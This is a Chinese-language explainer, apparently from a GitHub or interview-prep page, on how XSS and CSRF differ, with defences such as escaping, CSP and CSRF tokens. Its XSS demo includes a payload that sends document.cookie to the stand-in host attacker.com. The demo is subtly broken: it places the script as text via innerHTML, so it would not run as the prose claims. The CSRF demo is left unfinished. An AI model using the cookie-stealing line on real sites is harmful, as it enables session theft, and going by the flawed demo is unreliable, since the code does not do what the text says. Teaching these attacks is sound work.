 
**XSS与CSRF有什么区别吗？**

XSS（跨站脚本攻击）和 CSRF（跨站请求伪造）是两种不同类型的安全威胁，其区别如下：

**XSS（跨站脚本攻击）:**

- 目标：获取用户的敏感信息、执行恶意代码。
- 攻击方式：攻击者向受信任网站注入恶意脚本代码，使用户的浏览器执行该恶意脚本。
- 攻击原理：XSS攻击利用了网页应用对用户输入的信任，通过注入恶意脚本代码，使其在用户的浏览器中执行。
- 防护措施：对用户输入进行合适的转义和过滤，使用安全的模板引擎或自动转义函数，使用Content Security Policy（CSP）等。

**CSRF（跨站请求伪造）:**

- 目标：以用户的身份执行非预期的操作。
- 攻击方式：攻击者诱使用户在受信任网站上执行恶意操作，利用用户的身份发起恶意请求。
- 攻击原理：CSRF攻击利用了用户在受信任网站上的身份验证信息，通过伪造请求，使用户在不知情的情况下执行恶意操作。
- 防护措施：使用CSRF Token进行验证，验证请求来源、HTTP Referer头，双重提交Cookie验证等。

**总结：**

- XSS攻击注重利用网页应用对用户输入的信任，目标是获取用户的敏感信息和执行恶意代码。
- CSRF攻击注重利用网页应用对用户已认证身份的信任，目标是代替用户完成指定的动作。

**XSS攻击获取Cookie的示例：**

```html
<!-- index.html -->
<!doctype html>
<html>
  <head>
    <title>XSS Attack Demo</title>
  </head>
  <body>
    <h1>XSS Attack Demo</h1>
    <div id="content"></div>
    <script src="payload.js"></script>
  </body>
</html>
```

```javascript
// payload.js
const maliciousScript = `
  const xhr = new XMLHttpRequest();
  xhr.open('GET', 'http://attacker.com/steal-cookie?cookie=' + document.cookie, true);
  xhr.send();
`

document.getElementById('content').innerHTML = maliciousScript
```

在上述示例中，恶意脚本`payload.js`被注入到页面中。该脚本通过`XMLHttpRequest`发送`GET`请求，将页面中的`Cookie`信息发送给攻击者控制的服务器。

**CSRF攻击的示例：**

```html
<!-- index.html -->
<!doctype html>
<html>
  <head>
    <title>CSRF Attack Demo</title>
  </head>
  <body>
    <h1>CSRF Attack Demo</h1>
    <form id="csrfForm" method="POST">
      <input type="hidden" name="amount" value="1000" />
      <input type="submit" value="Transfer Money" />
    </form>
    <script src="payload.js"></script>
  </body>
```